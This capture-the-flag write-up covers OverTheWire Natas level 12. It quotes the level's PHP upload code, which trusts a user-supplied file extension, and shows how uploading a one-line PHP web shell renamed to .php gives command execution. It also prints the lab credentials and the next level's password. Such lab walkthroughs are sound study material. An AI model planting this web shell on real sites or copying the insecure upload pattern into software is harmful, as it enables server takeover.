





# Level 12

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas12.natas.labs.overthewire.org](http://natas12.natas.labs.overthewire.org)
- username: `natas12`
- password: `YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG`

## Solution



We have here `Image Upload` functionality, let's see the source code:

```php
...
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
...
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
...
```

So our file will be saved like `{random_letters}.jpg`. Let's try to upload simple `PHP POST shell` *(shell.php)* and intercept the request with burp:

```php
<?php echo system($_REQUEST['cmd']);?>
```



We can see here, that the filename will be `gnpydmyxrn.jpg`, so let's change it to `gnpydmyxrn.php`:



So now we can execute commands with the `POST` parameter `cmd`:



When we send this rewuest, we get:



## Password

`natas13`:`lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`

*Created by [bu19akov](https://github.com/bu19akov)*